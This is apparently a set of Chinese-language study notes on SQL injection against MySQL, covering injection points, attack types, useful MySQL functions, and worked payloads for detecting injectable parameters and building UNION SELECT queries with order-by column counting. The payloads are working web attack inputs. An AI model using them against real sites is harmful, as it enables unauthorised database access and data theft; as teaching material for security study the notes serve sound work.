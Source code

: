 - 简介

结构化查询语言(Structured Query Language,缩写：SQL)，是一种特殊的编程语言，用于数据库中的标准数据查询语言。1986年10月，美国国家标准学会对SQL进行规范后，以此作为关系式数据库管理系统的标准语言(ANSI X3. 135-1986),1987年得到国际标准组织的支持下成为国际标准。不过各种通行的数据库系统在其实践过程中都对SQL规范作了某些编改和扩充。所以，实际上不同数据库系统之间不能完全相互通用。

MYSQL ACCESS MSSQL oracle

明显的层次结构
  库名|表名|字段名

# SQL注入(SQL Injection)

是一种常见的Web安全漏洞，攻击者利用这个漏洞，可以访问或修改数据，或者利用潜在的数据库漏洞进行攻击。

## SQL注入基础

- 漏洞原理

针对SQL注入的攻击行为可描述为通过用户可控参数中注入SQL语法，破坏原有SQL结构，达到编写程序时意料之外结果的攻击行为。其成因可以归结为以下两个原因叠加造成的：
1. 程序编写者在处理程序和数据库交互时，使用字符串拼接的方式构造SQL语句
2. 未对用户可控参数进行足够的过滤便将参数内容拼接进入到SQL语句中。

- 注入点可能存在的位置

根据SQL注入漏洞的原理，在用户“可控参数”中注入SQL语法，也就是说Web应用在获取用户数据的地方，只要带入数据库查询，都有存在SQL注入的可能，这些地方通常包括：
 @ GET数据
 @ POST数据
 @ HTTP头部(HTTP请求报文其他字段)
 @ Cookie数据
 ...

   GPC （GET POST Cookie）

- 漏洞危害

攻击者利用SQL注入漏洞，可以获取数据库中的多种信息（例如：管理员后台密码），从而脱取数据库中内容（脱库）。在特别情况下还可以修改数据库内容或者插入内容到数据库，如果数据库权限分配存在问题，或者数据库本身存在缺陷，那么攻击者可以通过SQL注入漏洞直接获取webshell或者服务器系统权限。
  mysql提权 mof|udf

- 分类

SQL注入漏洞根据不同的标准，有不同的分类。但是从数据类型分类来看，SQL注入分为数字型和字符型。

数字型注入就是说注入点的数据，拼接到SQL语句中是以数字型出现的，即数据两边没有被单引号、双引号包括。
字符型注入正好相反

根据注入手法分类，大致可分为以下几个类别。
@ UNION query SQL injection (可联合查询注入)         联合查询
@ Error-based SQL injection (报错型注入)             报错注入
@ Boolean-based blind SQL injection (布尔型注入)     布尔盲注
@ Time-based blind SQL injection (基于时间延迟注入)   延时注入
@ Stacked queries SQL injection (可多语句查询注入)    堆叠查询

- 注入点的判断
 我们会在疑似注入点的连接或参数后面尝试提交以下数据

测试数据和方法不仅限于以下几种，并且还有多种变化。这些语句和变化需要在实战

# MYSQL相关

@ 注释
#
-- （--空格）
/* .... */
/* !... */ 内联查询

@ mysql元数据库information_schema
    tables
      table_name    表名
      table_schema  表所属数据库
    columns
      column_name   字段名
      table_name    字段所属表名
      table_schema  字段所属库名

@ MYSQL常用函数与参数

=|>|<|>=|<=|<>     比较运算符
and|or             逻辑运算符
version()          mysql数据库版本
database()         当前数据库名
user()             用户名
current_user()     当前用户名
system_user()      系统用户名
@@datadir          数据库路径
@@version_compile_os  操作系统版本

length()           返回字符串的长度
substring()        截取字符串
substr()
mid()
                   1. 截取的字符串
                   2. 截取起始位置，从1开始计数
                   3. 截取长度

left()             从左侧开始取指定字符个数的字符串
concat()           没有分隔符的连接字符串
concat_ws()        含有分隔符的连接字符串
group_concat()     连接一个组的字符串

ord()              返回ASCLL码
ascii()            
hex()              将字符串转换为十六进制
unhex()            hex的反向操作
md5()              返回md5值
floor(x)           返回不大于x的最大整数
round()            返回参数x接近的整数
rand()             返回0-1之间的随机浮点数

load_file()        读取文件，并返回文件内容作为一个字符串

sleep()            睡眠时间为指定的秒数
if(true,t,f)       if 判断
find_in_set()      返回字符串在字符串列表中的位置
benchmark()        指定语句执行的次数
name_const()       返回表作为结果

@ 逻辑运算
在SQL语句中逻辑运算与(and)比或(or)的优先级高
[select 1=2 and 1=2 or 1=1;]

- 注入流程

由于关系型数据库系统，具有明显的库/表/列/内容结构层次，所以我们通过SQL注入漏洞获取数据库中信息时候，也依据这样的顺序。

首先获取数据库名，其次获取表名，然后获取列名，最后获取数据。

工具：御剑（扫描后台）

## SQL注入点的判断

?id=35  +1/-1
  select * from tbName where id={$id}
?id=35' 字符型还是数字型
near ''' at line 1
select * from tbName where id=35 and 1=1

?id=35 and 1=1                     是否有布尔类型的状态
?id=35 and 1=2
select * from tbName where id=35 and 1=1
select * from tbName where id=35 and 1=2

?id=35 and sleep(5)                是否有延时

### 联合查询

由于数据库中的内容会回显到页面中来，所以我们可以采用联合查询进行注入

联合查询就是SQL语法中的union select 语句。该语句会同时执行两条select语句，生成两张虚拟表，然后把查询到的结果进行拼接。

select ~~~ union select ~~~

由于虚拟表是二维结构，联合查询会“纵向”拼接两张虚拟的表

实现跨库跨表查询

- 必要条件

@ 两张虚拟的表具有相同的列数
@ 虚拟表对应的列的数据类型相同

- 判断字段个数

可以使用[order by]语句来判断当前select语句所查询的虚拟表的列数。

[order by]语句本意是按照某一列进行排序，在mysql中可以使用数字来代替具体的列名，比如[order by 1]就是按照第一列进行排序，如果mysql没有找到对应的列，就会报错[Unknown column]，我们可以依次增加数字，直到数据库报错

[order by 1 --+]
[order by 2 --+]
...
[order by 15 --+]

## 判断显示位置
  
  得到字段个数之后，可以尝试构造联合查询语句
  
  这里我们并不知道表名，根据mysql数据库特性，select语句在执行的过程中，并不需要直到表名。
  [?id=33 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15 --+]
  [?id=33 union select null,null,null,null,null,null,null,null,null,null,null,null,null,null,null --+]

  页面显示的是第一张虚拟表的内容，那么我们可以考虑让第一张虚拟表的查询条件为假，则显示第二条记录。因此构造SQL语句：
  [?id=33 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15 --+]
  [?id=-33 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15 --+]

  在执行SQL语句注入时，可以考虑火狐浏览器的hackbar
  burp suite

  十六进制解码

  